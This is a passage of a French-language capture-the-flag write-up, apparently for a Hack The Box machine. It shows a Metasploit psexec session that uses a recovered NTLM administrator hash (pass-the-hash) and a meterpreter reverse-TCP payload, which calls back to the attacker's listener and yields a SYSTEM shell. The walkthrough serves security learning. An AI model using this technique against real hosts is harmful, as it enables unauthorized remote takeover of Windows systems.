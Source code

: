 On remarque surtout la présence d'un hash au format Windows (Lanman/NTML) qu'on s'empresse d'utiliser avec le module *psexec* de *Metasploit* :  

```plain
msf exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   RHOST                 10.10.10.63                                                        yes       The target address
   RPORT                 445                                                                yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                                                                      no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                     no        The service display name
   SERVICE_NAME                                                                             no        The service name
   SHARE                 ADMIN$                                                             yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write fo
lder share
   SMBDomain             .                                                                  no        The Windows domain to use for authentication
   SMBPass               aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00  no        The password for the specified username
   SMBUser               Administrator                                                      no        The username to authenticate as

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.15.121     yes       The listen address
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.15.121:4444
[*] 10.10.10.63:445 - Connecting to the server...
[*] 10.10.10.63:445 - Authenticating to 10.10.10.63:445 as user 'Administrator'...
[*] Sending stage (206403 bytes) to 10.10.10.63
[*] Sleeping before handling stage...
[*] 10.10.10.63:445 - Selecting PowerShell target
[*] 10.10.10.63:445 - Executing the payload...
[+] 10.10.10.63:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 1 opened (10.10.15.121:4444 -> 10.10.10.63:49878) at 2018-04-19 20:00:54 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
